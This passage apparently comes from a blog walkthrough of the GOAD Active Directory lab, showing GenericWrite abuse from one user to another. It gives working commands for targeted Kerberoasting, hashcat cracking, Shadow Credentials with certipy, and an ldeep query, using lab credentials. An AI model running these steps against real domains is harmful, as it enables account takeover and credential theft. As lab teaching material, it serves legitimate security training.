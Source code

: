 ## GenericWrite on User (Jaime -> Joffrey)

- As we just set up jaime password we will now exploit the GenericWrite from Jaime to Joffrey

![acl_jaime_jeoffrey_genericwrite.png](/assets/blog/GOAD/acl_jaime_jeoffrey_genericwrite.png)

- This could be abuse with 3 different technics :
  - shadowCredentials (windows server 2016 or +)
  - targetKerberoasting (password should be weak enough to be cracked)
  - logonScript (this need a user connection and to be honest it never worked or unless with a script already inside sysvol)


### Target Kerberoasting

- First let's do a target Kerberoasting, the principe is simple. Add an SPN to the user, ask for a tgs, remove the SPN on the user.
- And now we can crack the TGS just like a classic kerberoasting.

- Shutdown have done a tool which do all the work for you : [https://github.com/ShutdownRepo/targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)

```bash
targetedKerberoast.py -v -d sevenkingdoms.local -u jaime.lannister -p pasdebraspasdechocolat --request-user joffrey.baratheon
```

![acl_target_kerberoasting.png](/assets/blog/GOAD/acl_target_kerberoasting.png)

- And now just crack the hash

```bash
hashcat -m 13100 -a 0 joffrey.hash rockyou.txt --force
```

![acl_kerberoasting_crack.png](/assets/blog/GOAD/acl_kerberoasting_crack.png)


### Shadow Credentials

This was already done previously in this blog, one of the fastest exploitation is with certipy:

```bash
certipy shadow auto -u jaime.lannister@sevenkingdoms.local -p 'pasdebraspasdechocolat' -account 'joffrey.baratheon'
```

![acl_shadowcreds.png](/assets/blog/GOAD/acl_shadowcreds.png)


### Logon script

- To show the scriptpath ldap value instead of ldapsearch we can use the tool [ldeep](https://github.com/franc-pentest/ldeep)

```bash
ldeep ldap -u jaime.lannister -p 'pasdebraspasdechocolat' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=joffrey.baratheon)' scriptpath
```
